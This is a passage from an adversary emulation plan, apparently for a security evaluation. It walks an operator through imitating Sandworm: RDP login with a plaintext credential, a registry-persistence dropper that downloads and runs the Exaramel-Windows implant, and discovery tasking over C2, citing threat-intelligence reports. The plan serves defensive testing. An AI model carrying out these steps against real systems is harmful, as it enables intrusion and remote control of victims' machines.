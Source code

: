 Terminate the PsExec.py session. Keep your terminal open.

```bash
exit
```

You will now RDP into gammu, role-playing as the legitimate fherbert user.

From your current terminal, run:

```bash
xfreerdp +clipboard /u:WORKGROUP\\fherbert /p:"Whg42WbhhCE17FEzrqeJ" /v:10.0.1.7
```

:warning: Keep the gammu-RDP window open.

On login, the fherbert registry persistence will execute the exaramel-windows-dropper (wsmprovav.exe).

The dropper will download Exaramel-Windows over HTTP. The dropper then executes the Exaramel-Windows (wsmprovav.dll) using rundll32.exe.

[Source Code](../../Resources/Exaramel-Windows-Dropper/main.cpp)

:warning: Switch to your control server terminal; you should have a new C2 session from Exaramel-Windows.

Take a screenshot of the new implant session and paste it in Slack.

### :microscope: Cited Intelligence

* https://blog.talosintelligence.com/2017/06/worldwide-ransomware-variant.html

* https://securelist.com/be2-custom-plugins-router-abuse-and-target-profiles/67353/

* https://blog.talosintelligence.com/2018/02/olympic-destroyer.html

* https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/

<br>

## Step 16 - Windows Discovery

:microphone: `voice track`

Using the Exaramel-Windows C2 channel, Sandworm obtains the current username, OS version, performs a recursive file listing, and queries for RDP connections.

### :biohazard: Procedures

Place your cursor on the second pane in the control server window.

Run the following discovery commands:

Get current user.

```bash
# Sandworm Team has collected the username from a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "get-user"
```
